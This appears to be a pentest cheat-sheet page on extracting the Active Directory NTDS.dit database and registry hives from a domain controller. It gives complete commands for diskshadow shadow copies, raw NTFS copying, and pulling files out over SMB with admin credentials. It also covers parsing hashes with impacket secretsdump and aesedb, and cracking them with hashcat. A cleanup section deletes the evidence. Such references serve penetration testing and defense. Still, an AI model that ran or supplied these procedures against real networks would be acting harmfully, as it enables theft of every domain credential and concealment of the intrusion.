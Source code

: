 ```yaml
---
description: Windows NT Directory Services
---
```


# NTDS

- [https://github.com/MichaelGrafnetter/DSInternals](https://github.com/MichaelGrafnetter/DSInternals)
- [https://github.com/dionach/NtdsAudit](https://github.com/dionach/NtdsAudit)




## Shadow Disk



### Create via Diskshadow

Locate `diskshadow.exe`:

```
cmd /c where /R C:\ diskshadow.exe
```

Create a shadow disk:

```
cd \Windows\Temp
powershell -c "Add-Content add_vol.txt 'set context persistent nowriters'"
powershell -c "Add-Content add_vol.txt 'set metadata C:\Windows\Temp\meta.cab'"
powershell -c "Add-Content add_vol.txt 'set verbose on'"
powershell -c "Add-Content add_vol.txt 'begin backup'"
powershell -c "Add-Content add_vol.txt 'add volume c: alias DCROOT'"
powershell -c "Add-Content add_vol.txt 'create'"
powershell -c "Add-Content add_vol.txt 'expose %DCROOT% w:'"
powershell -c "Add-Content add_vol.txt 'end backup'"
cmd /c diskshadow.exe /s add_vol.txt
```

{% code title="add_vol.txt" %}
```
set context persistent nowriters
set metadata C:\Windows\Temp\meta.cab
set verbose on
begin backup
add volume c: alias DCROOT
create
expose %DCROOT% w:
end backup
```
{% endcode %}



### Exfiltrate over SMB

Create a network share with anonymous access and put there all we need:

```
cd \Windows\Temp
copy w:\Windows\NTDS\ntds.dit ntds.dit
cmd /c reg.exe save hklm\system system.hive
cmd /c reg.exe save hklm\sam sam.hive
cmd /c reg.exe save hklm\security security.hive
```

Connect to the share and grab the files:

```
$ smbclient.py MEGACORP/administrator:'Passw0rd!'@192.168.1.11
use C$
cd windows/temp
get ntds.dit
get system.hive
get sam.hive
get security.hive
```



### Clean Up

Remove the shadow volume:

```
cd \Windows\Temp
powershell -c "Add-Content delete_vol.txt 'set context persistent nowriters'"
powershell -c "Add-Content delete_vol.txt 'set metadata C:\Windows\Temp\meta.cab'"
powershell -c "Add-Content delete_vol.txt 'set verbose on'"
powershell -c "Add-Content delete_vol.txt 'unexpose w:'"
powershell -c "Add-Content delete_vol.txt 'delete shadows volume c:'"
powershell -c "Add-Content delete_vol.txt 'reset'"
cmd /c diskshadow.exe /s delete_vol.txt
```

{% code title="delete_vol.txt" %}
```
set context persistent nowriters
set metadata C:\Windows\Temp\meta.cab
set verbose on
unexpose w:
delete shadows volume c:
reset
```
{% endcode %}

Remove the share and all the traces:

```
cd \Windows\Temp
rm ntds.dit
rm system.hive
rm sam.hive
rm security.hive
rm C:\Windows\Temp\meta.cab
rm add_vol.txt
rm delete_vol.txt
```




## Raw NTDS.dit Copy

- [https://github.com/3gstudent/ntfsDump](https://github.com/3gstudent/ntfsDump)
- [https://github.com/RedCursorSecurityConsulting/NTFSCopy](https://github.com/RedCursorSecurityConsulting/NTFSCopy)

Obtain a copy of NTDS.dit:

```
PS > Invoke-NTFSCopy C:\Windows\NTDS\ntds.dit C:\Windows\Temp\ntds.dit
```

Parse on-site in conjunction with [NtdsAudit](https://github.com/dionach/NtdsAudit):

```
PS > esentutl.exe /p "C:\Windows\Temp\ntds.dit" /!10240 /8 /o
PS > reg.exe save HKLM\SYSTEM system.hive
PS > .\NtdsAudit.exe ntds.dit -s system.hive -p hashes.txt -u users.csv --dump-reversible cleartext.txt
```

Parse on-site in conjunction with [secretsdump.exe](https://github.com/Qazeer/OffensivePythonPipeline/blob/main/binaries/impacket/secretsdump_windows.exe):

```python
from binascii import hexlify
from impacket.smbconnection import SMBConnection
from impacket.examples.secretsdump import RemoteOperations
hostname = 'DC01.megacorp.local'
password = '<PASSWORD>'
nthash = '' if password else '<NTHASH>'
domain = hostname.split('.', 1)[1]
smbConn = SMBConnection(remoteName=hostname, remoteHost=hostname)
smbConn.login(user='snovvcrash', password=password, domain=domain, nthash=nthash)
remOps = RemoteOperations(smbConnection=smbConn, doKerberos=False)
remOps.enableRegistry()
bootKey = remOps.getBootKey()
print(hexlify(bootKey).decode())
remOps.finish()
# .\secretsdump.exe LOCAL -ntds C:\windows\Temp\ntds.dit -bootkey <BOOTKEY>
```




## Parse NTDS.dit

Parse with [secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py):

```
$ secretsdump.py [-pwd-last-set] [-user-status] [-history] -sam sam.hive -system system.hive -security security.hive -ntds ntds.dit LOCAL > ntds.txt
$ cat ntds.txt | grep -a aad3b | grep -i 'Status=Enabled' | grep -v 31d6c | grep -v -e '\$' -e '{' -e '}' -e HealthMailbox | awk -F: '{print $1":"$4}' | sort -u > ntds.in
$ hashcat -m 1000 -a 0 -w 4 -O --session=ntds -o ntds.out ntds.in seclists/Passwords/darkc0de.txt -r rules/d3ad0ne.rule
```

Parse with [aesedb](https://github.com/skelsec/aesedb) (faster but less informative):

```
$ antdsparse <BOOTKEY> ntds.dit -o ntds.txt --progress
$ antdsparse system.hive ntds.dit -o ntds.txt --progress
```



### Reversible Encryption

- [https://adsecurity.org/?p=2053](https://adsecurity.org/?p=2053)
- [https://www.blackhillsinfosec.com/how-i-cracked-a-128-bit-password/](https://www.blackhillsinfosec.com/how-i-cracked-a-128-bit-password/)

Check if enabled globally:

- gpmc.msc > Default Domain Policy > *Computer Configuration* > *Policies* > *Windows Settings* > *Security Settings* > *Account Policies* > *Password Policy* > *Store passwords using reversible encryption* > *Enabled* ✔

Check if enabled for specific users:

```
PS > Get-ADUser -Filter {userAccountControl -band 128} -Properties userAccountControl | ft name,samAccountName,userAccountControl | tee users-revenc.txt
```

{% hint style="info" %}
When DCSyncing such users, a cleartext password will be obtained.
{% endhint %}
